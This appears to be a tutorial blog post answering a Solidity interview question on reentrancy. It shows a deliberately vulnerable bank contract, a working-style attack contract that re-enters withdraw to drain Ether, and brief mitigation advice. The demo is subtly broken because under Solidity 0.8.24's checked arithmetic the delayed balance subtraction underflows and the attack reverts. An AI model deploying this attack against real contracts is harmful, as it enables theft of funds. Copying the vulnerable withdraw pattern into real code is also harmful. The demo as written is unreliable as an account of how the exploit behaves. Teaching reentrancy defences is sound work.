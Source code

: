 # RareSkills Solidity Interview Question #20 Answered: What is reentrancy?

This series will provide answers to the list of [Solidity interview questions](https://www.rareskills.io/post/solidity-interview-questions) that were published by [RareSkills.](https://www.rareskills.io/).

![Alt text](media/Question_20.png)

## *Question #20 (Easy): What is reentrancy?*

**Answer:** Reentrancy is a mechanism where a caller calls a function on a contract and reenters the same contract through another function call before the first function call is finished executing. This can happen when a function passes execution control to another contract via a call or Ether transfer. Then, the contract that’s granted execution control can reenter the original contract by calling one of its function.

## Demonstration:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.24;

contract VulnerableBank {
    mapping(address => uint256) public balances;

    // Function to deposit Ether into the bank
    function deposit() public payable {
        require(msg.value > 0, "Deposit amount must be greater than 0");

        balances[msg.sender] += msg.value;
    }

    // Vulnerable withdraw function
    function withdraw(uint256 _amount) public {
        require(balances[msg.sender] >= _amount, "Insufficient balance");

        // This call is vulnerable to reentrancy
        (bool sent, ) = msg.sender.call{value: _amount}("");

        require(sent, "Failed to send Ether");

        balances[msg.sender] -= _amount;
    }
}

contract AttackVulnerableBank {
    VulnerableBank public vulnerableBank;

    constructor(address _vulnerableBankAddress) {
        vulnerableBank = VulnerableBank(_vulnerableBankAddress);
    }

    // Fallback function used to call withdraw again
    receive() external payable {
        if (address(vulnerableBank).balance >= 1 ether) {
            vulnerableBank.withdraw(1 ether);
        }
    }

    // Initial function to start the attack
    function attack() external payable {
        require(msg.value >= 1 ether);

        vulnerableBank.deposit{value: 1 ether}();
        vulnerableBank.withdraw(1 ether);
    }

    // Withdraw Ether from this contract
    function getEther() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

## Further Discussion:

Reentrancy is a commonly used as an attack vector and can allow an attacker to drain a contract’s funds.

It is important to mitigate against a reentrancy attack by using a reentrancy guard. This guard can be properly following the [checks-effects-interactions pattern](https://medium.com/coinmonks/rareskills-solidity-interview-question-17-answered-what-is-the-check-effects-pattern-975e262eb616), explicitly implementing a modifier to prevent the function from being reentered before it finishes executing, etc.

Medium article: https://medium.com/coinsbench/rareskills-solidity-interview-question-20-answered-what-is-reentrancy-bc49c60dbef0